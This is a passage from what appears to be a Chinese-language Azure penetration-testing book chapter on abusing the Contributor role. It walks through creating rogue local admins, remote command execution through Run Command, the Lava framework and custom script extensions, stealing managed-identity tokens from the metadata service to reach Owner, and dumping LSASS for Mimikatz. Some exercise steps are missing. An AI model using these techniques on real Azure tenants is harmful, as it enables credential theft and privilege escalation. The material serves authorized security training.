对于那些在本地 Windows 环境中更有经验的人来说，参与者访问权限类似于在大多数系统上拥有一个具有本地管理员权限的域帐户。您有权管理基础结构并进行更改，但无权向域中添加新用户或在域管理员级别进行全局更改。

以下是参与者角色有权使用且我们可以利用的一些 IaaS 平台功能：

- 重置 VM 上的本地用户密码
- 以特权用户身份在 VM 上运行命令
- 安装和执行 VM 扩展
- 导出未加密的操作系统磁盘以供分析

请注意，这些操作可能会对环境造成明显的状态更改，如果操作不当，可能会对 IaaS 资源造成问题。请谨慎使用这些功能进行攻击。我们将在本章后面的章节中介绍这些功能，但首先，让我们逐步完成设置 Azure 订阅的过程，以便进行本章即将进行的练习。

### 动手练习 – 为参与者（IaaS）漏洞利用场景做准备

本动手练习将为我们完成本章剩余练习做好准备。为了跟随本章将要介绍的场景，您需要在自己的 Azure 订阅中设置一个具有参与者权限的用户以及一些易受攻击的工作负载配置。我们已经使用一个 PowerShell 脚本自动化了此过程，您可以从 Azure Cloud Shell 运行该脚本。

以下是我们在本练习中要完成的任务：

1. 打开 Web 浏览器，浏览到 Azure 门户，网址为 https://portal.azure.com。使用 azureadmin 凭据登录。
2. 在 Azure 门户中，点击 Azure 门户右上角的 Cloud Shell 图标。选择 PowerShell：



图 5.1 – 点击图标打开 Cloud Shell

#### 脚本有什么作用？

该脚本在 Azure 订阅中创建一个具有参与者权限的用户帐户。该脚本还会设置图 5.4 中显示的资源与对象：

- 一台已启动的 Windows VM，名为 `winvm01`
- 一台已关闭的 Windows VM，名为 `winvm02`
- 一台已启动的 Linux VM，名为 `linuxvm01`

以下是将添加到您的测试订阅中的资源示意图：



*图 5.4 – 参与者 IaaS 漏洞利用场景*

5. 脚本完成后，您将在输出部分看到后续练习所需的关键信息。请将这些信息复制到记事本文档中，以便日后参考。

您需要从输出部分获取两个关键值：

**Azure 参与者用户：** 这是具有 Azure 订阅参与者权限的 Azure 管理员用户名。

**Azure 参与者用户密码：** 这是 Azure 参与者管理员的密码：

```
Transcript started, output file is contributor-iaas-scenario-output.txt
################
#### Script Output ####
################
Azure Contributor Admin User: contributoruser@azurepentesting.com
Azure Contributor Admin User Password: myPassword123

Transcript stopped, output file is /home/azureadmin/contributor-iaas-scenario-output.txt
Deployment Ended 02/23/2021 18:44:44
```

图 5.5 – 脚本输出示例

您已成功创建了将在本章后续练习中使用的资源。在下一节中，我们将介绍通过利用 IaaS 参与者级别可用的平台功能来试图实现的目标。

### 理解参与者的 IaaS 权限提升目标

作为*参与者*，我们最终希望将权限提升到订阅的所有者（Owner）角色，和/或 Azure AD 租户中的特权角色。有了这个角色，我们比读者（Reader）角色在尝试提升环境权限方面拥有更多的选择。为此，我们希望利用对 IaaS 资源的权限，从这些资源中获取更高级别的凭据。由于我们可以控制 IaaS 资源的几乎每个方面，因此我们可以开始更深入地研究这些资源。

> **重要说明**
>
> 虽然本章中描述的场景假设您对 IaaS 资源拥有参与者访问权限，但在 Azure 渗透测试中情况并非总是如此。您可能拥有允许在 VM 上执行命令的本地或域凭据，但实际无法访问订阅。我们将在本章中介绍的技术可以轻松调整，以便从您具有命令执行权限的 VM 切入 Azure 订阅。

在我们开始在 Azure VM 上随机执行命令之前，我们需要理解为什么要运行这些命令。假设我们拥有订阅中所有 VM 的参与者权限，为什么还要关心运行额外的命令？

简单的答案是“查找可用于提升权限的凭据”，但可能导致权限提升的凭据有多种选择。我们试图强调在攻击 Azure VM 时我们可能会采用四个主要目标：

- 本地凭据搜寻
- 域凭据搜寻
- 网络横向移动机会
- 租户凭据搜寻

在接下来的几个部分中，我们将详细介绍这四个目标。

### 本地凭据搜寻

能够以特权用户身份在 Azure VM 上运行命令，为收集本地凭据（哈希或明文）提供了绝佳机会，这些凭据可能是*横向移至租户中的其他系统、帐户和订阅*，甚至连接到*本地系统*的关键。管理员经常在不同的环境中的多个系统上重复使用相同的本地凭据，并且也将相同的凭据用于域帐户，这是非常常见的。这种攻击可以同时应用于 Windows 和 Linux 系统，它们甚至可能在不同操作系统之间共享凭据。

### 域凭据搜寻

Azure VM 可以是独立系统，也可以加入更大的 **Active Directory（AD）** 域。如果 VM 已加入域，则从 VM 收集信息可能会产生更大的影响。通常，在订阅中具有特权角色的 Azure AD 用户也是登录到 VM 的同一批用户。

通过从每个 VM 收集凭据，我们可能能够获取更多特权用户的明文凭据（或哈希）。需要注意的是，此时的域凭据可以是明文、哈希或缓存凭据。哈希或缓存的凭据可能被破解以揭示明文密码。

收集域凭据可能是我们逐步获得域或企业管理员权限的重要一步。到那时，我们将能够转储域的所有密码哈希，或者重置我们想要访问的特权帐户的密码。


### 横向网络移动机会

由于 VM 部署在 Azure 中由客户管理的虚拟网络内，组织通常会在其传统网络与 Azure 虚拟网络之间建立连接。能够在 Azure VM 上运行命令，使我们有机会发现可能与这些 VM 相连的网络中的服务和资源，并寻找利用它们的机会。

运行命令的能力也可能提供绕过防御的机会。在某些情况下，对本地 Azure 访问和远程 Azure 访问可能有着不同的**多因素身份验证（MFA）**要求。作者曾见过一些环境，要求来自互联网的连接执行 MFA，但不要求来自受信任的内部本地 IP 的连接执行 MFA。

在本地环境中提升权限，并转储和破解租户管理员账户的凭据后，可能可以直接从本地系统或 Azure VM 登录 Azure 管理界面。

#### 租户凭据搜寻

在某些情况下，组织会在 Azure 中托管特权访问工作站或跳板机。这些系统可供管理员对其环境执行特权操作。我们会尝试从这些机器上收集缓存的访问令牌或其他凭据，以便再次使用。

在本章后面，我们将介绍如何识别 Azure VM 上的托管标识。这些标识也可通过从元数据服务生成令牌，用于从 VM 提升权限进入 Azure 租户。生成的令牌随后可用于从你可能原本无法访问的其他服务收集敏感信息。

现在我们已经了解了目标，接下来看看实现这些目标的不同利用场景。

#### 利用参与者权限调用 Azure 平台功能

借助参与者角色，我们拥有一组丰富的平台级功能，可用于管理环境中的 VM。由于我们将这些功能用作渗透测试者，因此我们对这些功能的用例可能与普通用户略有不同。

#### 利用密码重置功能

Azure VM 的密码重置功能旨在简化使用安装在每个 Azure VM 上的 VM 代理重置本地 Azure VM 用户密码的过程。然而，此功能可能被滥用，在 Azure 中的 Windows 和 Linux VM 上创建具有管理权限的新本地用户！

此功能可从 Azure 门户（图 5.6）或 Azure 命令行工具中使用。Lava 等利用工具也可利用此功能大规模重置 VM 密码。渗透测试者可以使用此功能从 Azure 平台横向移动到 IaaS 工作负载，从而推进攻击链：



图 5.6 – 门户中 VM 的密码重置示例

要使用 Azure CLI 通过此功能为 VM 创建本地用户，我们将使用以下命令：

```bash
az vm user update -u username -p password -n <VM_Name> -g <Resource_Group>
```

要使用 Azure PowerShell 通过此功能为 VM 创建本地用户，我们可以使用以下命令：

```powershell
Set-AzVMAccessExtension -ResourceGroupName "<Resource_Group>" -Location "<Location>" -VMName "<VM_Name>" -Name "<Extension_Name>" -TypeHandlerVersion "2.4" -UserName "<Username>" -Password "<Password>"
```

你现在已使用参与者凭据完成身份验证。

4. 使用以下命令获取订阅中的 VM 列表：

```
Get-AzVM
```

以下是命令输出的截图：



图 5.9 – 可用 VM 列表

5. 使用以下命令在 winvm01 VM 上创建新的本地用户：

```
Set-AzVMAccessExtension -ResourceGroupName "PENTEST-RG" -VMName "winvm01" -Credential (get-credential) -typeHandlerVersion "2.0" -Name VMAccessAgent
```

出现提示时，输入 pentestuser 作为用户名，输入 secretPass123 作为密码，然后点击“确定”。

以下是此过程的截图：



图 5.10 – 密码重置功能示例

6. 使用以下命令获取 `winvm01` 的公网 IP：

```
Get-AzPublicIpAddress -Name winvm01* | Select IpAddress
```

请记住，如果 VM 没有公网 IP 或未打开 RDP 端口，你始终可以使用参与者角色权限在公网 IP 上公开该服务。在大多数环境中，这是一项重大状态变更并会增加风险，因此不建议在大多数环境中使用。

以下是命令的截图：



图 5.11 – 列出 VM 的公网 IP

7. 通过 RDP 连接到公网 IP，并使用用户名 `pentestuser` 和密码 `secretPass123` 进行身份验证。

恭喜！你已成功使用参与者角色在 VM 上创建了本地管理员用户。

这是一个非常方便的功能，但在评估过程中，它并不总是最合适的工具。假设我们希望在测试期间采取更隐蔽一些的行动。在系统上创建新的本地管理员用户可能会触发一些警报。作为一种替代方案，我们可以使用 Azure 原生功能直接在 VM 上运行命令，而无需额外的账户。

#### 利用运行命令功能

Azure VM 的运行命令功能是一种平台功能，可使用 VM 代理在 VM 上远程运行脚本。它可用于在 Windows VM 上运行 PowerShell 脚本，在 Linux VM 上运行 shell 脚本。管理员或开发人员通常使用它来快速诊断和修复 VM 访问与网络问题，使 VM 恢复正常状态。

利用此功能时，需要记住以下信息：

- 脚本在 Windows VM 上以系统账户身份运行，在 Linux VM 上以提升的用户（通常为 root）身份运行。
- 此功能一次只能运行一个脚本。
- 不支持提示用户信息的交互式脚本。
- 需要从 VM 到 Azure 公共 IP 地址（端口 443）的出站连接才能返回脚本结果。

开始使用运行命令功能的最简单方法是从门户中的 **虚拟机** 边栏选项卡（*图 5.12*）开始。门户中有些预构建命令可以运行，但对于我们的用例，我们需要运行自己的自定义命令：



图 5.12 – Azure 运行命令菜单

通过选择 **RunPowerShellScript**（对于 Linux，则为 **RunShellScript**），我们可以在 VM 上运行自己的自定义命令。作为概念验证，我们将展示运行 whoami 命令：

图 5.13 – Azure 运行命令执行“whoami”

虽然这可能是在 VM 上运行命令的最简便方法之一，但它的可扩展性不强，并且门户在及时将命令执行结果返回给浏览器方面容易出现问题。这可能导致命令结果被截断，以及命令尚未执行完毕就发生会话超时。例如，之前发出的简单 whoami 命令花费了 21 秒才将输出返回给浏览器。虽然对这样一个简单命令来说，这时间相当长，但更复杂、处理密集的命令可能需要更长的时间（几分钟）才能返回。

##### 从 Az PowerShell 模块运行命令

要获得更可扩展的命令执行选项，我们可以使用 Azure PowerShell 模块，通过 PowerShell 管道的威力在多个 VM 上排队命令。在已经过 Azure 身份验证的 PowerShell 会话中，可以使用以下命令列出正在运行的 Windows VM，并将它们赋给 VMs 变量：

```powershell
PS C:\> $VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

PS C:\> $VMs | select ResourceGroupName,Name
ResourceGroupName      Name
-----------------      ----
DEFAULT                RunCommandTestVM
```

在前面的示例中，我们知道系统运行的是 Windows，因此我们将把一个 PowerShell ps1 文件传递给主机。我们首先需要将 whoami 命令输入到 ps1 文件中：

```powershell
PS C:\> echo "whoami" > whoami.ps1
```

要执行命令，我们需要传入资源组以及我们要在其上运行命令的 VM 的名称。借助 PowerShell 管道的威力，我们可以将 VMs 变量与本地脚本一起传递给 Invoke-AzVMRunCommand 函数：

```powershell
PS C:\> $VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1

Value[0]        :
    Code        : ComponentStatus/StdOut/succeeded
    Level       : Info
    DisplayStatus : Provisioning succeeded
    Message     : nt authority\system
Value[1]        :
    Code        : ComponentStatus/StdErr/succeeded
```


| 级别 | 信息 |
|---|---|
| DisplayStatus | 预配成功 |
| Message |  |
| Status | 成功 |
| Capacity | 0 |
| Count | 0 |

虽然这种方法在我们的示例环境中没问题，但它会尝试对订阅中的所有 VM 运行你的 PowerShell 脚本。在正常的 Azure 渗透测试期间，你可能希望将命令执行集中在单个 VM 上。

这可以通过指定单个 VM 和资源组，或使用我们之前创建的 VM 变量的索引来实现。请记住，在 PowerShell 中索引从 0 开始，因此我们可以将 `$VMs[0]` 传递给同一个 `Invoke-AzRunCommand` 函数，以对列表中的第一台 VM 运行命令。

##### 从 Azure REST API 运行命令

这可能是在 VM 上运行命令最困难的方式，但幸运的是，有一些脚本可以帮助我们简化此过程。虽然这有点偏离我们标准的已认证 Contributor 用户流程，但我们可能会遇到这样的情况：我们拥有某个托管标识的令牌，并且该标识具有 Contributor 角色。

如前一章所述，如果我们能访问具有托管标识的 VM，就可以为该标识生成一个访问令牌，该令牌可用于管理 API。然后，可以将此令牌与 MicroBurst 中的脚本结合使用，以在其他 VM 上运行命令。

下面是一个示例命令，用于获取可访问 Azure 管理 API 端点的访问令牌：

```bash
root@LinuxVM:~# curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq
```

以下是命令及其输出的截图：

```text
root@LinuxVM:~#
root@LinuxVM:~# curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq
{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIn..."
}
```

图 5.14 – 使用 curl 查询元数据服务

获取令牌后，可以利用 MicroBurst 工具包中 REST 部分的 `Invoke-AzVMCommandREST` 命令，使用所获取的令牌来运行命令。该函数会提示你选择订阅以及要在其上运行命令的 VM。由于该命令通过 REST API 运行，因此我们无法看到命令的结果。要查看命令的直接结果，我们需要强制 VM 回调我们，或者创建一些证据来证明我们在该机器上运行了命令（例如 `whoami > test.txt`）。下面是一个使用此方法的示例：

```powershell
PS C:\> $mgmtToken = "TOKEN GOES HERE"
PS C:\> Invoke-AzVMCommandREST -commandToExecute "whoami > test.txt" -managementToken $mgmtToken
204cce89-27de-4669-a48b-04c27255e05e
Executing command on target VM: RunCommandTestVM
```

运行此命令后，我们可以前往该 VM，在 VM 上查找 `test.txt` 文件，以证明命令已经执行。在典型的测试中，我们更有可能使用这种命令执行方式来启动来自 VM 的反向 shell 连接。

从实际渗透测试的角度来看，这种命令执行方式可能是最有用的方法之一。随着越来越多的组织将其传统应用程序迁移到云端，将会有更多机会利用应用程序服务器并从 VM 和 App Service 主机收集访问令牌。

### Lava 简介

Lava 是一个基于 Python 的 Microsoft Azure 利用框架。它内置了多个可用于利用 Azure 中各种错误配置的模块。本书的作者之一定期为该项目做贡献。在下一个动手练习中，我们将使用它来利用具有特权的 VM 进行角色提升。

**Lava 信息**

- **作者**：Matt Rotlevi（Twitter：@mattrotlevi）
- **开源或商业**：开源项目
- **GitHub 仓库**：https://github.com/mattrotlevi/lava
- **语言**：Python

#### 动手练习 – 使用 Lava 利用特权 VM 资源

在本练习中，我们将在渗透测试 VM 的 WSL 中下载 Lava，使用它查找 Azure 订阅中具有特权的 IaaS 资源，然后将权限从 Contributor 角色提升为 Owner 角色。

以下是我们将在本练习中完成的任务：

- 使用 WSL 中的 Azure CLI 工具进行 Azure 身份验证。
- 在 WSL 中下载 Lava。
- 使用 Lava 模块获取订阅中特权 VM 的列表。
- 使用 Lava 模块利用具有 Owner 角色分配的 VM。

让我们开始吧！

1. 在渗透测试 VM 上打开 PowerShell。

2. 在 PowerShell 控制台中，输入 `bash` 切换到 Windows Subsystem for Linux（WSL）。

3. 使用以下命令切换到 root 用户。这执行我们想要执行的安装任务时需要。在提示时输入管理员密码：

```text
azureuser@PentestVM:~# sudo su -
```

4. 使用 `az login` Azure CLI 命令进行 Azure 身份验证：

```text
root@PentestVM:~# az login
```

5. 在提示时，输入你在本章第一个练习的脚本输出中获得的 Contributor 凭据：



图 5.15 – az login 密码提示

你现在已使用 Contributor 凭据完成身份验证。

6. 使用以下命令下载 Lava：

```bash
root@PentestVM:~# git clone https://github.com/mattrotlevi/lava.git
```

以下是命令及其输出的截图：



图 5.16 – 克隆 Lava GitHub 仓库

7. 使用以下命令切换到 Lava 目录并运行它：

```bash
root@PentestVM:~# cd lava/
root@PentestVM:~# python3 lava.py
```

看起来如下：


图 5.17 – Lava 初始化截图

8. 在 Lava 控制台中，使用 `whoami` 命令确认已认证用户：

```text
Lava $> whoami
```

以下是命令及其输出的截图：


图 5.18 – Lava whoami 命令的结果

9. 使用以下命令列出 Lava 中的所有模块：

```text
Lava $> ls
```

看起来如下：


图 5.19 – Lava ls 命令的结果

Lava 有许多模块，可以在不同场景下利用资源，但在本章中，我们将使用两个主要模块：`vm_list_privileged` 和 `vm_rce`。

10. 使用 `vm_list_privileged` 模块检查订阅中是否有任何 VM 与特权托管标识关联。要在 Lava 中执行模块，命令前需要加上 `exec` 关键字：

```text
exec vm_list_privileged
```

以下是命令及其输出的截图。从截图中可以看到，该模块找到了一台 VM，但该 VM 没有关联的托管标识（1）。你还可以看到，该模块找到了另一台与特权托管标识关联的 VM（2）。该模块还显示了分配给 VM 的角色以及角色分配范围（3）：


图 5.20 – Lava vm_list_privileged 模块输出

总的来说，该模块应列出两台具有特权角色分配的 VM（假设你已删除了上一章的 VM）：一台在订阅范围内具有 Owner 角色分配的 Linux VM，以及一台具有 Contributor 角色分配的 Windows VM。请注意被发现具有 Owner 权限的 Linux VM 的名称（linuxvm01）和资源组（pentest-rg）。由于我们已经拥有分配了 Contributor 角色的凭据，因此我们将专注于利用具有 Owner 角色分配的 VM 来获取其令牌，以实现权限提升。

11. 使用 `vm_rce` 模块以 Contributor 身份利用 Run Command 功能。你需要指定 VM 名称和资源组，如下所示：

```text
Lava $> exec vm_rce -rgrp PENTEST-RG -vm_name linuxvm01
```


以下是命令及其输出的截图。现在你应该会看到一个显示界面，看起来像是获得了分配有“所有者”角色的 Linux VM 的 shell 访问权限。我们可以选择在该 VM 内部以所有者身份运行命令，也可以获取一个可在 VM 外部复用的访问令牌。本例中，我们选择后一种方案。值得注意的是，这并不是一个真正的 shell；在后台，Lava 会获取命令输入，使用“运行命令”（Run Command）功能执行命令，并返回输出！

```
Lava $> exec vm_rce -rgrp PENTEST-RG -vm_name linuxvm01
[+] getting shell info [+]
alright! here's a nice shell!
azureuser@linuxvm01$ _
```

图 5.21 – 在 Lava 中执行 exec vm_rce 模块的结果

- 12. 在 shell 中，运行以下命令以获取资源管理器的访问令牌。这将获得一个可用于以所有者权限进行 API 调用的访问令牌：

```
azureuser@linuxvm01$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com' -H Metadata:true
```

以下是命令及其输出的截图：


图 5.22 – 元数据令牌请求的结果

以下是命令及其输出的截图：


图 5.24 – 退出 shell 和 Lava 并设置令牌的结果

- 15. 使用该令牌，以所有者权限对资源管理器运行命令。要安装 jq，请执行 `apt install jq` 命令。你可以尝试以下命令，但我们只展示第一个命令的截图。为了方便，这些命令已包含在此 URL 的文件中：`http://bit.ly/tokenexploit`。欢迎下载：

```
##### Get a list of subscriptions
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq

##### Store the subscription ID in a variable
SUB_ID=$(curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions?api-version=2020-01-01 | jq -r .value[].subscriptionId)

##### Get a list of resource groups
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resourcegroups?api-version=2019-10-01 | jq

##### Get a list of resources
curl --header "Authorization: Bearer ${TOKEN}" https://management.azure.com/subscriptions/${SUB_ID}/resources?api-version=2019-10-01 | jq
```

以下是第一个命令及其输出的截图：


图 5.25 – 可用订阅的示例列表

恭喜！你已成功实现了从参与者（Contributor）角色到所有者（Owner）角色的权限提升。

### 执行 VM 扩展

作为本节的最后一点，我们想介绍使用 VM 扩展在 VM 上运行命令。虽然这不是运行命令的最简单方式，但在某些情况下，它可能是你唯一的选择。

Azure VM 扩展是管理员在 VM 部署后用于配置 VM 的工具。为了针对不同用途定制这些扩展，Microsoft 允许基于其定义的架构创建自定义脚本扩展。

该架构包含指向脚本文件的文件 URI 或 URL，使我们可以指定要执行的 PowerShell 文件。作为攻击者，我们将需要一个 Web 服务器来托管这些文件 URI。我们建议使用 Azure Blob Storage 内置的 Web 托管功能，或使用 Azure App Service 来托管这些文件。

运行自定义脚本扩展的命令由以下参数组成：

- **ResourceGroupName**：VM 的资源组。
- **VMName**：VM 的名称。
- **Location**：VM 所在的区域。
- **FileUri**：脚本文件的 HTTP/HTTPS URL。
- **Run**：要运行的文件；应与 ps1 文件名相同。
- **Name**：自定义脚本扩展将使用的名称。

```
PS C:\> Set-AzVMCustomScriptExtension -ResourceGroupName TEST -VMName PentestVM -Location westcentralus -FileUri 'http://book.azurepentesting.com/whoami.ps1' -Run 'whoami.ps1' -Name CustomScriptExtension
```

在前面的命令示例中，我们将在 PentestVM 主机上运行 whoami.ps1 脚本（托管在 book.azurepentesting.com 上）。在更实际的场景中，我们会使用自定义脚本扩展来创建反向 shell 或向 VM 添加新用户。

> **重要说明**
> 本章恰好介绍了本书技术审阅者之一 Jake Karnes 的两项研究成果。我们强烈建议你阅读他关于使用 Azure VM 扩展在 Azure VM 上启动 Covenant C2 植入体的深入文章：https://blog.netspi.com/attacking-azure-with-custom-script-extensions/。

虽然这是另一种盲命令执行方法，但它可以很方便地在 VM 上获得初步立足点。这种方法也为我们作为订阅参与者可使用的 Azure 功能这部分内容画上了句号。接下来，我们将回顾使用刚刚介绍的方法要从 VM 中收集的数据。

### 从 Azure VM 中提取数据

现在，我们已经充分了解了作为参与者操作 Azure VM 的众多选项。凭借此访问权限，我们将开始从这些 VM 中收集敏感信息和凭据，以提升租户中的权限，并可能提升 AD 域中的权限。

以下是我们希望从 VM 中收集的一些常见信息类型：

- Windows NTLM 哈希和内存中的凭据
- 存储在 VM 扩展设置中的凭据
- 敏感文件和本地管理员密码哈希

我们已经介绍了如何查找托管标识并从其中收集令牌，但它们也是从 VM 中提取凭据数据的关键目标。

### 使用 Mimikatz 收集本地凭据

虽然 Mimikatz 的所有功能足以写成一本书，但我们只会介绍从 Windows VM 中提取凭据所需的基础知识。运行 Mimikatz 的最基本方式是在受害机器上运行可执行文件。虽然这种方法可行，但任何还算最新的端点检测与响应（EDR）软件都会在可执行文件写入虚拟磁盘后立即捕获它。

如果面对的是不太成熟的 EDR，我们可以尝试使用 Invoke-Mimikatz PowerShell 脚本在内存中运行它，或者使用其他技术将 Mimikatz 直接加载到内存中。对于某些较弱的 EDR 配置，这可能可行，但我们也发现这种方式被检测到的情况也越来越多。

最后，我们可以尝试转储 LSASS 进程内存，并使用 Mimikatz 离线解析。这样我们永远不必将 Mimikatz 放置在 VM 上，而且也不太可能触发任何警报。许多防御工具现在都在监视 LSASS 进程并保护内存空间不被转储，因此你的实际效果可能会有所不同。

从好的方面来说，遇到几乎没有或完全没有端点保护的开发 VM 并不罕见。这些 VM 可能是绝佳的凭据来源，也可能完全是空的开发机器。无论如何，我们将通过以下步骤介绍最终技术，作为离线运行 Mimikatz 解析 LSASS 转储的示例：

- 1. 在目标 VM 上，打开任务管理器（按 Ctrl + Shift + Esc 或在“开始”菜单中键入 taskmgr）。
- 2. 在“**详细信息**”选项卡下，找到 lsass.exe 进程。
- 3. 右键单击 lsass 进程，然后选择“**创建转储文件**”：


图 5.26 – 创建 LSASS 转储文件

- 4. 转储文件写入完成后，Windows 将告知生成的 .dmp 文件的路径。
- 5. 导航到该文件夹，将 .dmp 文件从 VM 复制到你的测试系统。
- 6. 在你的测试系统上，打开一个具有特权的 PowerShell 或 CMD 会话，并从 GitHub 下载 Mimikatz：https://github.com/gentilkiwi/mimikatz。
- 7. 运行 Mimikatz 可执行文件，并使用 sekurlsa::minidump lsass.dmp 命令将 .dmp 文件加载到 Mimikatz。


作为扩展的执行和日志记录的一部分，它们会在 VM 上存储扩展配置文件和日志。这些文件可以被解析以获取敏感信息，包括凭据。此类别的主要罪魁祸首之一是域加入扩展，它最终可能会存储用于将 VM 加入域的凭据。

> **重要说明**
>
> 注意域加入凭据。它们不仅可能记录在 Run Command 扩展日志中，而且在未正确关闭的 PowerShell ISE 会话中也可能被看到漂浮着。
>
> 作为 VM 上的默认本地管理员帐户，您可以打开 PowerShell ISE 并查看是否有任何脚本被自动恢复。作者见过许多情况，管理员会通过在 ISE 中执行的脚本将 VM 加入域，但由于关闭不当，凭据可以在下一次使用本地管理员用户登录的 ISE 会话中被恢复。

作为 VM 上的本地管理员，我们可以使用 VM 上的证书来解密由 VM 扩展存储的受保护设置。为了从扩展中提取这些数据点，我们将采取以下步骤：

- 1. 以本地管理员身份在 Windows VM 上打开一个 PowerShell 会话。
- 2. 从 MicroBurst 工具包导入 `Get-AzureVMExtensionSettings` 函数： `https://github.com/NetSPI/MicroBurst/blob/master/Misc/Get-AzureVMExtensionSettings.ps1`。
- 3. 运行 `Get-AzureVMExtensionSettings` 函数并观察结果。

